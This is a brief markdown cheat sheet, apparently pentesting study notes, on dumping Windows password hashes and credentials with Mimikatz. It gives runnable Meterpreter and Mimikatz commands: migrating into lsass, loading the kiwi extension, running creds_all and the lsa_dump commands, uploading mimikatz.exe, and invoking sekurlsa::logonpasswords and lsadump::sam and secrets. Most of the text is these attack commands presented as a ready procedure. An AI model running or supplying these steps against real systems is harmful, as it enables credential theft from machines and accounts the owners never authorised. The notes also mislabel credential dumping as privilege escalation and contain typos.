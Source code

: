 # Dumping Windows Hashes using Mimikatz

- Mimikatz is post exploitation tool used to extract credentials from memory or the password hashes from the local SAM databases,
- SAM is a database in Windows  which stores user passwords
- We can either export the `mimikatz.exe` executable file to the target or use a inbuilt Meterpreter extension called "KIWI" 

#### PRIVILEGE ESCALATION:

1. Gain an initial Meterpreter shell session
2. Now migrate to a privileged process

```
pgrep lsass.exe
migrate "PID"
```

3. Now load the KIWI extension
```
load kiwi
```

4. Now we can run the Mimikatz commands
- `creds_all` 
- `lsa_dump_sam` : dumps the contents of SAM databases
- `lsa_dump_secrets` : dumps Sys keys, LSA keys etc..

5. We can also explort the mimitkatz executable file to the target

```
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

```
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
```
